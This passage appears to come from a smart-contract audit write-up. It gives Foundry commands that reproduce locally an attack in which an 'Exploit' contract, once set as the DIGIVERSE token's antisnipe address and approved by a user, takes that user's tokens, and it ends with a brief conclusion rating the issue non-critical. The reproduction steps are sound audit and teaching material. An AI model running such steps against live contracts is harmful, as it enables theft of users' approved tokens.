 If you want implement on local, you can follow:
```bash
# implement MockUniswapV2Router and DIGIVERSE contracts
forge create --rpc-url <RPC> --private-key <owner_privatekey> MockUniswapV2Router
forge create --rpc-url <RPC> --constructor-args <MockUniswapV2Router_address> --private-key <owner_privatekey> src/Digiverse.sol:DIGIVERSE
# init 1000 tokens to user
cast send --rpc-url <RPC> --private-key <owner_privatekey> <DIGIVERSE_address> "transfer(address,uint256)" <user_address> 1000 --chain-id <chain_id>
# implement Exploiter contract
forge create --rpc-url <RPC> --constructor-args <DIGIVERSE_address> <user_address> --private-key <attacker_privatekey> src/Exploit.sol:Exploit
# set antisnipe contract
cast send --rpc-url <RPC> --private-key <owner_privatekey> <DIGIVERSE_address> "setAntisnipeAddress(address)" <Exploiter_address> --chain-id <chain_id>
# user approve to antisnipe contract
cast send --rpc-url <RPC> --private-key <user_privatekey> <DIGIVERSE_address> "approve(address,uint256)(bool)" <Exploiter_address> <Approve_number> --chain-id <chain_id>
# trigger exploit 
cast send <Exploiter_address> "exploit()" --rpc-url <RPC> --private-key <attacker_privatekey> --chain-id <chain_id>
```

## Conclusion
This is not a critical vulnerability but it still make potential risks exist. I also learned about using `foundry` to help me auditting, testing and developing demo.
